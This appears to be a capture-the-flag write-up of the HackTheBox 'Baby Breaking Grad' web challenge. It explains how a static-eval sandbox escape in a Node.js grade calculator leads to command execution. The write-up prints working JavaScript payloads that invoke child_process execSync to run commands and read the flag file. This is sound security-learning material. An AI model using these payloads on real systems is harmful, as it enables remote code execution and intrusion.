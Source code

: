 ```yaml
---
title: Baby Breaking Grad
date: 2024-11-07 14:30:45 +0100
categories: [HackTheBox, Web]
tags: [challenge, web]
---
```

# HackTheBox - Baby Breaking Grad Web Challenge
**Link:** [HackTheBox Challenge - Baby Breaking Grad](https://app.hackthebox.com/challenges/baby%20breaking%20grad)

### Challenge Description
We corrected the math in our physics teacher's paper, and now he is failing us out of spite for embarrassing him at the university's research symposium. Now, we can't graduate unless we can do something about it...

### Walkthrough

![img-description](assets/img/screenshots/Pasted image 20241106235150.png)

Upon visiting the website, we are greeted with this page. Clicking the "Did I pass?" button results in "No" message for both students. Let’s open Burp Suite and see what’s going on more closely.

![img-description](assets/img/screenshots/Pasted image 20241106235506.png) 

We can see that the student's name is sent to the server, and the server responds with "Nope." Our request is sent to the `/api/calculate` endpoint, suggesting that some calculations are happening in the backend to check if we passed. So let's inspect the source code.

### Code analysis

![img-description](assets/img/screenshots/Pasted image 20241107000231.png)

While inspecting `index.js`, we notice a few things:

1. At line 20, the formula can have different values.
2. At line 22, there is a blacklist of students.

Let's investigate the `StudentHelper.js` file, to see exactly what's going on.

![img-description](assets/img/screenshots/Pasted image 20241107000859.png)

From this code, we observe that:

1. The `static-eval` package is used.
2. Students "Baker" and "Purvirs" are blacklisted.
3. If a student is not blacklisted, it uses `evaluate` to parse the formula.

Before exploring a code injection vulnerability in `static-eval`, let’s test our understanding of the code by trying to get a passing grade. We know it expects the following parameters `exam`, `paper`, and `assignment`.

### Testing the functions

![img-description](assets/img/screenshots/Pasted image 20241107003215.png)

We start with these really bad grades, and as expected, we fail.

![img-description](assets/img/screenshots/Pasted image 20241107003547.png)

After modifying the formula to add ten points to the exam grade, we pass!

Now that we understand the calculation process, let's delve deeper into `static-eval` to find a command injection vulnerability that we could exploit when the server parses our formula.

### Getting remote command execution

![img-description](assets/img/screenshots/Pasted image 20241107003826.png)

While examining its [repository](https://github.com/browserify/static-eval/blob/master/test/eval.js), I noticed this interesting line of code. If we can execute the right function, we might achieve code execution.

After further research, I found this [post](https://licenciaparahackear.github.io/posts/static-eval-sandbox-escape-original-writeup/), which shows how to achieve our goal with the following code:
```javascript
(function({x}){return x.constructor})({x:"".sub})("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()
```

We will merge this payload with previous code from the repo to create a new payload. Using the `sleep` command to check if our injection was successful:
```javascript
(function myTag(y){return ''[!y?'__proto__':'constructor'][y]})('constructor')('console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"sleep 5\").toString())')()
```

> **Note:** Replace double quotes with single quotes, as shown above. 
{: .prompt-warning }

![img-description](assets/img/screenshots/Pasted image 20241107005813.png)

We send our request, and we observe a five-second delay, confirming our code was executed successfully. Now, we need to retrieve the output of our code.

After more research, I found that we could extract the output through error messages using `throw new Error()`.

> In JavaScript, `throw new Error()` is a way to create and throw an error. `throw` keyword is used to throw or raise an exception. It can then be followed by any JavaScript expression, in our case we are creating a new instance of the `Error` class, a built-in JavaScript object for handling errors.
{: .prompt-tip }

By replacing `console.log` with `throw new Error()`, it should work as intended.

```javascript
(function myTag(y){return ''[!y?'__proto__':'constructor'][y]})('constructor')('throw new Error(global.process.mainModule.constructor._load(\"child_process\").execSync(\"ls\").toString())')()
```

Next, we'll run the `ls` command to locate our flag.

### Getting the flag

![img-description](assets/img/screenshots/Pasted image 20241107010918.png)

And here we go! We see a file named `flagFOJ94`. Now, we just replace the `ls` command with `cat flagFOJ94` to read its contents.

![img-description](assets/img/screenshots/Pasted image 20241107011406.png)

Thank you for reading 📖 
